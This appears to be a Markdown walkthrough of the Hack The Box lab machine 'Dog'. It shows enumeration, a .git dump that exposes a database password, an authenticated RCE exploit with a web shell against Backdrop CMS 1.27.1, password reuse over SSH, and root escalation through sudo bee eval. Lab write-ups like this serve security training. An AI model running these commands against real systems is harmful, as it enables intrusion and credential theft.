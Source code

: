 # 🐶 Dog

## 📝 Overview

The machine uses **Backdrop CMS 1.27.1**, vulnerable to Authenticated Remote Code Execution (RCE).  
The goal is to enumerate the web application, exploit Backdrop CMS, and escalate privileges to root.

## 🔍 Enumeration

Nmap:
```sh
nmap -p- -T4 10.10.11.58
nmap -sV -sC -p 22,80 10.10.11.58
```
Add the host to /etc/hosts:
```sh
echo "10.10.11.58 dog.htb" | sudo tee -a /etc/hosts
```
Username Enumeration (Password Reset Form):
```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
-X POST -d "name=FUZZ&form_id=user_pass&op=Reset+password" \
-u http://10.10.11.58/?q=user/password -mr "Sorry, .* is not recognized as a user name"
```

## 📂 Git Repository Dump

```bash
python3 -m venv venv
source venv/bin/activate
pip install git-dumper
git-dumper http://10.10.11.58/.git/ ./doggit
```

## 🔑 Credential & Sensitive Information Search on dump git

```bash
grep -Ri 'user' .
grep -Ri 'username' .
grep -Ri 'password' .
grep -Ri 'pass' .
grep -Ri 'admin' .
grep -Ri '.htb'
grep -Eroi "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-z]{2,}" .
```
Found credentials (setting.php):
```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```
And user:
```
tiffany@dog.htb
```

## ⚡ Exploiting Backdrop CMS 1.27.1 (Authenticated RCE)

The machine is vulnerable to **Backdrop CMS 1.27.1 – Authenticated Remote Command Execution**:  
[Exploit-DB #52021](https://www.exploit-db.com/exploits/52021)

```bash
# Install new module manually
python exploit.py http://10.10.11.58

# Package and upload web shell
tar -czvf shell.tar.gz shell/
# Access web shell
http://10.10.11.58/modules/shell/shell.php?cmd=id
# Find another user:
cat /etc/passwd/
```

## 🧗Password Reuse & Privilege Escalation

Login as johncusack using reused password:
```bash
# johncusack // BackDropJ2024DS2024
ssh johncusack@10.10.11.58

# Upload linPEAS for enumeration
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
scp linpeas.sh johncusack@10.10.11.58:.

# Basic enumeration
id
groups
uname -a
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null
sudo -l

# Privilege escalation via Backdrop bee command
cd /var/www/html
sudo /usr/local/bin/bee --root eval "system('cat /root/root.txt');"
```

[Bee doc](https://github.com/backdrop-contrib/bee/wiki/Usage#command-structure)